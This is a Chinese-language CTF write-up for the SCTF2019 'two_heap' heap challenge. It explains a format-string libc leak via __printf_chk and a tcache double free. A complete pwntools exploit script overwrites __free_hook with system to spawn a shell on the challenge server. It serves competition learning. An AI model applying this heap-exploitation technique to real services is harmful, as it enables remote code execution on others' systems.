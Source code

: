 ```yaml
---
title: two_heap
categories:
- SCTF2019
---
```

# SCTF2019 two_heap

## 前言

一个冷知识=半小时内解决一道题

## 程序逻辑

程序还是只有Malloc和Free。

main函数里有个printf的格式化字符串漏洞但是printf_chk似乎不能非连续地输入%x%nx这样。

![main](./3.jpg)

malloc的size被8对齐处理，之后放入node[0]，chunk_addr放入node[1]。size开始都被初始化为0x80，且每次malloc的size不能与已经malloc的相同(指8对齐后的size)。且这里检查了bss里有无stdout地址。malloc的数量最多为8个。

![malloc](./1.jpg)

![malloc2](./2.jpg)

free这里存在double free。

![free](./3.jpg)

## 漏洞利用

__printf_chk可以用"%a%2$a%3$a"泄露出栈地址，根据固定偏移算出libc地址。

分配一个size=0的chunk，double free再malloc一个size=0x10的chunk修改fd，malloc一个size=0x8的chunk，再malloc一个size=0x18的即可分配到free_hook，改成system，最后free一个"/bin/sh\x00"的块拿shell

## exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
debug = 1
gadgets = [0x4f2c5,0x4f322,0x10a38c,0xe569f,0xe5858,0xe585f,0xe5863,0x10a398]
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def New(p,size,content):
    p.recvuntil('Your choice:')
    p.sendline('1')
    p.recvuntil('Input the size:')
    p.sendline(str(size))
    p.recvuntil('Input the note:\n')
    p.send(content)

def Delete(p,index):
    p.recvuntil('Your choice:')
    p.sendline('2')
    p.recvuntil('Input the index:\n')
    p.sendline(str(index))

def exp(p):
    #leak libc
    p.recvuntil('Welcome to SCTF:\n')

    p.sendline('%a%2$a%3$a')
    p.recvuntil('0x0.0')
    recv = '0x'+p.recvuntil('p',drop=True)+'0'
    print (recv)
    libc_base = int(recv,16) - 0x861a590
    log.success('libc base => ' + hex(libc_base))

    malloc_hook = libc_base + libc.symbols['__free_hook']
    shell_addr = libc_base + libc.symbols['system']
    #get shell
    p.recvuntil('Your choice:')
    p.sendline('1')
    p.recvuntil('Input the size:')
    p.sendline('0')#0
    Delete(p,0)
    Delete(p,0)
    New(p,0x10,p64(malloc_hook)+'\n')#1
    New(p,0x8,'a\n')#2
    New(p,0x18,p64(shell_addr)+'\n')#3

    New(p,0x20,'/bin/sh\x00\n')#4
    gdb.attach(p)
    Delete(p,4)


    p.interactive()

if debug:
    p = process('./two_heap')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote('47.104.89.129',10002)
    libc = ELF('./libc-2.26.so')

exp(p)
```
